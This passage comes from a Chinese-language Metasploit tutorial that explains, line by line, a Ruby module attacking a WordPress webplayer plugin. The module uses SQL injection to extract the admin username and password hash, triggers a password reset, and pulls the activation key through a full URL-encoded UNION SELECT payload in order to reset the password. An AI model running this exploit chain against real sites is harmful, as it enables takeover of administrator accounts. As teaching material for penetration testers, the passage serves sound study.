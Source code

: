 ```
      print_line("[+]Generating Activation Key")
      sleep(1)
```

### 工作与解释

与其他基于 HTTP 的辅助设备和漏洞利用相比，基于辅助设备的漏洞利用模块的本节工作相对简单。然而，这可能看起来很可怕。在一开始，我们定义了所需的库，并提供了有关利用漏洞的所需信息。我们首先使用`run_host`方法初始化与目标的连接。接下来，我们创建一个名为`req1`的简单变量，它存储完整的 URI 以触发 SQL 注入。接下来，我们创建一个变量`res`，该变量将通过提供`req1`字符串作为`uri`和`method`作为`GET`来存储发送到目标的原始请求的结果。接下来，我们创建一个变量`userfind`，它将存储响应中字符串 admin 的位置。但是，`userfind`变量将存储第一个字符的地址，即来自`admin`的`a`。接下来，我们从存储在`userfind`中的位置开始精确地切割五个位置，并将其保存到一个名为`username`的变量中。

接下来，我们对散列密码重复相同的操作，并将散列的 34 个字符的长度存储在`pass`变量中。然后，我们将两者都输出到屏幕上。

到目前为止，用户名和密码散列分别存储在两个变量`username`和`pass`中。让我们进一步了解代码：

```
req2="/wordpress/wordpress/wp-login.php?action=lostpassword"
      u_cookie="WP+cookie+check"
      res2 = send_request_cgi(
                        {
                                'uri'       => req2,
                                'method'    => 'POST',
                                'cookie'    => "wordpress_test_cookie=#{u_cookie}",
                                'vars_post' =>
                                        {
                                                'user_login'     => username,
                                                'redirect_to' => "",
                                                'wp-submit' =>"Get+New+Password" 
                                        }
                        })
```

接下来，我们需要生成激活密钥。您可能还记得，当我们忘记了 WordPress 安装中位于`/wp-login.php?action=lostpassword`的密码页时，它会要求输入用户名或电子邮件。

一旦我们要求重置密码，WordPress 就会生成一个激活密钥。因此，我们通过前面的代码生成一个激活密钥。我们将在`req2`变量中创建一个对遗忘密码页面的请求，这次我们使用`send_request_cgi`函数`POST`将数据发送到页面。我们还创建了一个`u_cookie`变量来设置请求中的测试 cookie。我们将`uri`参数设置为`req2`，将`method`设置为`POST`，将`cookie`设置为`u_cookie`变量的内容。

为了发送数据，我们使用`vars_post`参数，并在其中添加所有必需的子参数，即`user_login= username`、`redirect_to =`和`wp-submit="Get+New+Password"`。

使用`vars_post`的优点是，它将所有值连接成以下形式：

```
 user_login=admin& redirect_to =&wp-submit=Get+New+Password
```

前面的查询将为数据库中的用户 admin 生成激活密钥。现在，让我们进一步讨论代码：

```
      req3="/wordpress/wordpress/wp-content/plugins/webplayer/config.php?id=-5962%20UNION%20ALL%20SELECT%20NULL%2C%28SELECT%20CONCAT%280x3a7a74783a%2CIFNULL%28CAST%28user_activation_key%20AS%20CHAR%29%2C0x20%29%2C0x656e63726e6c%2CIFNULL%28CAST%28user_login%20AS%20CHAR%29%2C0x20%29%2C0x3a77786e3a%29%20FROM%20wordpress.wp_users%20LIMIT%200%2C1%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%23"
      res3=send_request_raw({'uri' => req3, 'method' => 'GET' })
      sear= (res3.body =~ /videoid/)
      vernum= sear+13
      acti=res3.body[vernum,20]
      uu= (res3.body =~ /admin/)
      userinfo=res3.body[uu,5]
      print_line("[+]Finding Activation Key")
      sleep(1)
      print_line("[+]Key Generated For Username:#{userinfo}")
      sleep(1)
      print_line("[+]Activation Key:#{acti}")
      sleep(1)
      print_line("[+]Bypassing Password Cracking | Resetting Password to : 12345")
```